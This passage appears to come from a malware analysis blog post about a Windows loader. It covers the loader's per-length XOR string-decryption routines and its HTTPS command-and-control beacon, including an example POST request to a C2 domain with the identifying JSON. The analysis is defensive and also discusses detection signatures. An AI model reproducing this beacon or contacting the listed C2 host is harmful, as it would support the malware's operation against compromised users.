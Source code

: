 ![img](/xor_decryption_0.png)

These two functions are wrapped in a multitude of routines with static
global addresses for the plaintext and hardcoded plaintext lengths. This means
that buffers store the decrypted strings not based on their content, but rather
their length. So if two different strings of the same length need to be decrypted,
the latest plaintext will clobber the previous. This actually happens several
times. It's *weird* and mildly annoying, but ultimately not effective. A little
binja scripting goes a long way here.

{{< box important>}}
Thank God DLL and function name lengths are rarely the same!
{{< /box >}}

The third encryption method (for example @ `0x14001b710`) is used only in one
function (`0x140012b20`), but unlike the aforementioned encryption routines, the
plaintext is local to the function. The key is derived from the string index by
summing and mod'ing it with fixed byte-size values. Again though, it looks like
each decryption function is generated per string length. Considering the author
is operating on encrypted `NUL` terminated strings that they control, knowing
the length of the string is not necessary - just stop when you hit a `NUL`
byte. The many decryption functions aren't really providing significant
obfuscation value. On a positive note, this decryption routine proved to be a
pretty effective signature for this loader and not too difficult to script.
`2/10`

## C2 Communication
C2 communication is done through HTTPS. The C2 domains sit behind Cloudflare.
The loader builds the following object to identify the compromised host:
```json
{"appid":"<hardcoded_uuid>","deviceid":"<long_decimal_number"}
```

The `appid` is a UUID, hardcoded into the sample; `deviceid` is a string,
representing a concatenation of the current user's `SID_IDENTIFIER_AUTHORITY`,
and all of the user's sub authority values in decimal. The loader sends the
identification object as `POST` data to the C2, using a custom user agent `UA/1`.

Full request to the C2 might look something like this:
```
POST /windows/verify HTTP/1.1
Host: cloudnetworkverify.com
User-Agent: UA/1
Content-Length: 101
Content-Type: application/json

{"appid": "cf5e1917-02e8-4eaf-849d-bd53c72e36e3", "deviceid": "..."}
```

In return, the loader expects a response with a header `securedata:` and
base64-encoded data that is longer than 200 bytes. If the response is too
short, the program cleans up and exits. Using HTTPS for C2 comms makes sense,
sitting behind Cloudflare also makes sense, but it's not very exciting. `5/10`
